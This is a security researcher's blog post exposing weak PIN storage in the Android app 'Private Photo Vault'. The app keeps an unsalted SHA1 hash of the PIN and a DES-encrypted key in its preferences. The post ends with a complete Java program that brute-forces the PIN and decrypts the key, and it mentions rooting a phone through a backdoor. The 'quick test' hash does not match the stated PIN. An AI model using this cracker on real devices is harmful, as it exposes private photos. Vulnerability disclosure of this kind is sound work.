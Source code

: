 ```yaml
---
layout: post
title: Password Storage In Sensitive Apps
---
```

Well it isn’t the promised Pork Explosion disclosure, but I ensure you that is coming soon. I have word the update to mitigate it is done, and will be shipping this month. I do however have something else, an example of what Pork Explosion could be stacked with.

Last week I was contacted by a forensic specialist for a law enforcement agency. They had a phone that could make or break a very sensitive case, and their commercial mobile forensic tools were failing to do, well anything. They could not extract any data off the device. After verifying their identity and purpose, I agreed to help. Using a backdoor, very much like Pork Explosion, and some trickery we were able to fully extract all data off the device. This had me thinking, what next? What if this criminal was using another layer of security? What if they had a "secure storage" app, what if their photos, videos and what not were encrypted in an addition layer of security?

Off to the Google PlayStore, searched for "Secure Photo" and downloaded the first result, sure enough the files stored were encrypted.... but the PIN was stored in plaintext as a shared preference. Ok no fun, so I install the second result.

>“Have any photos or videos you don't want someone to see? Hide these private pics and vids securely with Private Photo Vault.”

The second result was [“Private Photo Vault”](https://privatephotovault.com/) by Legendary Software Labs LLC. It has a solid 4 star rating, 1,000,000 to 5,000,000 downloads, and was lasted updated just over two months ago. Using Pork Explosion, I rooted the device and extracted the data directory for Private Photo Vault. The initial results were more promising than the first app, no plaintext PIN stored in the shared preferences. The promise didn’t last long:

Stored in /data/data/com.enchantedcloud.photovault/shared_prefs/com.enchantedcloud.photovault_preferences.xml was what appeared to be the sha1 hash of the PIN and some base64 encoded key.

><?xml version='1.0' encoding='utf-8' standalone='yes' ?>
><map>
><string name="pin">7110eda4d09e062aa5e4a390b0a572ac0d2c0220</string>
><string name=“enc_keys_pin">Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg==</string>
></map>

A quick test confirms:

>Jons-Mac-Pro:~ jcase$ echo -ne 1224|shasum
>4fd505f8aeed956f068c4ce57bfc30a6131b7c79 

A single iteration of SHA1 is all that is protecting your PIN code (which is limited to four digits in length). Then DES is used, padding the PIN with “0” until it has a length of 8, to encrypt a key. I stopped analysis at this point, the app was already beyond broken. The app then goes on to use   Facebook’s Android encryption library [Conceal](https://github.com/facebook/conceal), but I did not go any further.

These companies are selling products that claim to securely store your most intimate pieces of data, yet are at most snake oil. You would have near equal protection just by changing the file extension and renaming the photos.


So for those that want to crack the pin and key for a “Private Photo Vault” installation, here you go.

>public class Main {
>
>    public static void main(String[] args) {
>     
>     // "pin" and "enc_keys_pin" from com.enchantedcloud.photovault_preferences.xml
>        String hashedPIN = "7110eda4d09e062aa5e4a390b0a572ac0d2c0220"; // 1234
>        String encKeyPin = "Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg=="; // 1e8a99cb-ebe8-452c-b9da-6466a8a60e02
>
>        System.out.println("Cracking pin...");
>        String PIN = crackPIN(hashedPIN);
>        System.out.println("PIN is " + PIN);
>
>        System.out.println("Decrypting Key...");
>        String KEY = decryptKey(encKeyPin,PIN);
>        System.out.println("KEY is " + KEY);
>    }
>    
>    private static String decryptKey (String KEY, String PIN) {
>
>        while (PIN.length() < 8) {
>            PIN = PIN + 0;
>        }
>
>        SecretKey secKey = null;
>        try {
>            secKey = SecretKeyFactory.getInstance("DES").generateSecret(new DESKeySpec(PIN.getBytes("UTF8")));
>            byte[] bKey = Base64.decode(KEY);
>            Cipher cipher = Cipher.getInstance("DES");
>            cipher.init(2, (secKey));
>            return new String(cipher.doFinal(bKey));
>        } catch (InvalidKeySpecException e) {
>            e.printStackTrace();
>        } catch (NoSuchAlgorithmException e) {
>            e.printStackTrace();
>        } catch (InvalidKeyException e) {
>            e.printStackTrace();
>        } catch (UnsupportedEncodingException e) {
>            e.printStackTrace();
>        } catch (BadPaddingException e) {
>            e.printStackTrace();
>        } catch (IllegalBlockSizeException e) {
>            e.printStackTrace();
>        } catch (NoSuchPaddingException e) {
>            e.printStackTrace();
>        }
>        return null;
>    }
>
>    private static String crackPIN(String hashedPIN) {
>        for (int i = 0; i <= 9999;i++) {
>            String testPin = Integer.toString(i);
>            while (testPin.length() < 4) {
>                testPin = "0" + testPin;
>            }
>            try {
>                MessageDigest md = MessageDigest.getInstance("SHA-1");
>                md.reset();
>                md.update(testPin.getBytes());
>                if (hashedPIN.equals(bytesToHex(md.digest()))) {
>                    return testPin;
>
>                }
>            } catch (NoSuchAlgorithmException e) {
>                e.printStackTrace();
>            }
>        }
>        return null;
>    }
>
>    private static String bytesToHex(byte[] bytes) {
>        char[] hexArray = "0123456789abcdef".toCharArray();
>        char[] hexChars = new char[bytes.length * 2];
>        for ( int j = 0; j < bytes.length; j++ ) {
>            int v = bytes[j] & 0xFF;
>            hexChars[j * 2] = hexArray[v >>> 4];
>            hexChars[j * 2 + 1] = hexArray[v & 0x0F];
>        }
>        return new String(hexChars);
>    }
>}
